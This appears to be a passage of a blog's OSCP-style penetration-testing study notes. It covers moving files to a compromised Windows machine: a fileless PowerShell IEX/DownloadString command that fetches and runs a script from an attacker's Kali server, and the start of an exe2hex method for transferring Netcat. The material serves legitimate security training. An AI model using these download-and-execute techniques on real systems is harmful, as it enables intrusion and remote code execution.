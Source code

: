 • If we want to download and execute a PowerShell script without saving it to disk, we can once againuse the System.Net.Webclient class.
 
• This is done by combining the DownloadString method withthe Invoke-Expression cmdlet (IEX).

• To demonstrate this, we will create a simple PowerShell script on our Kali machine (Listing 482):

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/31.jpg)



![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/32.jpg)




![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/33.jpg)

kali@kali:/var/www/html$ sudo cat helloworld.ps1Write-Output "Hello World"
# Listing 482 - The Hello World script hosted on our web server

• Next, we will run the script with the following command on our compromised Windows machine 

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/34.jpg)

C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('
http://10.11.0.4/helloworld.ps1')
Hello World


• The content of the PowerShell script was downloaded from our Kali machine and successfullyexecuted without saving it to the victim hard disk.


16.2.3 Windows Downloads with exe2hex and PowerShell

• In order to download a binary file from Kali to a compromised Windows host.

• Starting on our Kali machine, we will compress the binary we want to transfer, convert it to a hex string, and embed it into a Windows script.

• On the Windows machine, we will paste this script into our shell and run it.
 
• It will redirect the hexdata into powershell.exe, which will assemble it back into a binary. This will be done through a series of non-interactive commands.
 
• As an example, let’s use powershell.exe to transfer Netcat from our Kali Linux machine to our Windows client over a remote shell.

• We’ll start by locating and inspecting the nc.exe file on Kali Linux

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/35.jpg)

kali@kali:~$ locate nc.exe | grep binaries
/usr/share/windows-resources/binaries/nc.exe
kali@kali:~$ cp /usr/share/windows-resources/binaries/nc.exe .
kali@kali:~$ ls -lh nc.exe
-rwxr-xr-x 1 kali kali 58K Sep 18 14:22 nc.exe
